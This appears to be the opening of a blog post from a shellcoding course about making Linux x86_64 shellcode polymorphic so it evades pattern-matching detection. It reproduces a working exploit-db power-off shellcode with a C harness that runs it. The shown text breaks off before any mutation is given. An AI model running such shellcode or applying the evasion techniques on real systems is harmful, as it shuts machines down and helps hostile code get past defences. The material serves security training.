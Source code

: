 ```yaml
---
layout: single
title: Polymorphic Shellcode - Linux x86_64
date: 2018-7-25
classes: wide
header:
  teaser: /assets/images/
---
```


Introduction
------------
In general polymorphism mean the ability to appear in many forms, it’s also referred to as a feature of object-oriented programing in computer science. In this post we will take three sample shellcodes off of exploit-db and mutate them in order to beat pattern matching. The final shellcode size should be less or equal to 150% of the original shellcode. Please refer to my SLAE32 series to learn more about polymorphism.

Shellcode I
-----------
In the first [shellcode](https://www.exploit-db.com/exploits/13688/) we’ll look at issuing power off command via `reboot()` function and its 19 bytes in size which means we have up to 28 bytes of space.

```nasm
# Linux/x86_64 reboot(POWER_OFF) 19 bytes shellcode
# Date: 2010-04-25
# Author: zbt
# Tested on: x86_64 Debian GNU/Linux


/*
    ; reboot(LINUX_REBOOT_MAGIC1, LINUX_REBOOT_MAGIC2,
LINUX_REBOOT_CMD_POWER_OFF)

    section .text
        global _start

    _start:
        mov     edx, 0x4321fedc
        mov     esi, 0x28121969
        mov     edi, 0xfee1dead
        mov     al,  0xa9
        syscall
*/
int main(void)
{
    char reboot[] =
    "\xba\xdc\xfe\x21\x43"  // mov    $0x4321fedc,%edx
    "\xbe\x69\x19\x12\x28"  // mov    $0x28121969,%esi
    "\xbf\xad\xde\xe1\xfe"  // mov    $0xfee1dead,%edi
    "\xb0\xa9"              // mov    $0xa9,%al
    "\x0f\x05";             // syscall

    (*(void (*)()) reboot)();

    return 0;
}
```

